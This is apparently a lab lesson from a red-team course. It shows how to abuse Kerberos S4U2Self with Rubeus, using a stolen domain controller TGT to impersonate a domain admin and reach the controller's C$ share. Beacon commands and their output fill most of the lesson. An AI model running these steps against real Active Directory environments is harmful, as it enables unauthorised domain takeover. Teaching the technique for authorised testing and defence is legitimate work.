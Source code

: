 As we saw in the previous two examples of constrained delegation, there are two S4U (Service for User) extensions.  S4U2Self (Service for User to Self) and S4U2Proxy (Service for User to Proxy).  S4U2Self allows a service to obtain a TGS to itself on behalf of a user, and S4U2Proxy allows the service to obtain a TGS on behalf of a user to a second service.

When we abused constrained delegation, we did: Rubeus `s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /user:sql-2$`.  From the output, we saw Rubeus first builds an S4U2Self request and obtains a TGS for nlamb to sql-2/dev.cyberbotic.io.  It then builds an S4U2Proxy request to obtain a TGS for nlamb to cifs/dc-2.dev.cyberbotic.io.

This is obviously working by design because SQL-2 is specifically trusted for delegation to that service.  However, there's another particularly useful way, published by [Elad Shamir](https://twitter.com/elad_shamir), to abuse the S4U2Self extension - and that is to gain access to a computer if we have its TGT.

In the Unconstrained Delegation module, we obtained a TGT for the domain controller.  If you tried to pass that ticket into a logon session and use it to access the C$ share (like we would with a user TGT), it would fail.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:DC-2$ /password:FakePass /ticket:doIFuj[...]lDLklP

[*] Using DEV\DC-2$:FakePass

[*] Showing process : False
[*] Username        : DC-2$
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2832
[+] Ticket successfully imported!
[+] LUID            : 0x4d977f

beacon> steal_token 2832

beacon> ls \\dc-2.dev.cyberbotic.io\c$
[-] could not open \\dc-2.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
```
  

This is because machines do not get remote local admin access to themselves.  What we can do instead is abuse S4U2Self to obtain a usable TGS as a user we know _is_ a local admin (e.g. a domain admin).  Rubeus has a `/self` flag for this purpose.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap

[*] Action: S4U

[*] Building S4U2self request for: 'DC-2$@DEV.CYBERBOTIC.IO'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.122.10)
[*] Sending S4U2self request to 10.10.122.10:88
[+] S4U2self success!
[*] Substituting alternative service name 'cifs/dc-2.dev.cyberbotic.io'
[*] Got a TGS for 'nlamb' to 'cifs@DEV.CYBERBOTIC.IO'
[*] base64(ticket.kirbi):

doIFyD[...]MuaW8=

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=

[*] Using DEV\nlamb:FakePass

[*] Showing process : False
[*] Username        : nlamb
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2664
[+] Ticket successfully imported!
[+] LUID            : 0x4ff935

beacon> steal_token 2664

beacon> ls \\dc-2.dev.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 15:44:08   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     08/15/2022 16:09:55   inetpub
          dir     05/08/2021 08:20:24   PerfLogs
          dir     08/24/2022 10:51:51   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     09/05/2022 17:17:48   ProgramData
          dir     08/15/2022 15:23:23   Recovery
          dir     08/16/2022 12:37:38   Shares
          dir     09/05/2022 12:03:43   System Volume Information
          dir     08/15/2022 15:24:39   Users
          dir     09/06/2022 15:21:25   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 1kb      fil     08/15/2022 16:16:13   dc-2.dev.cyberbotic.io_sub-ca.req
 12kb     fil     09/05/2022 07:25:58   DumpStack.log
 12kb     fil     09/06/2022 09:04:41   DumpStack.log.tmp
 384mb    fil     09/06/2022 09:04:41   pagefile.sys
 ```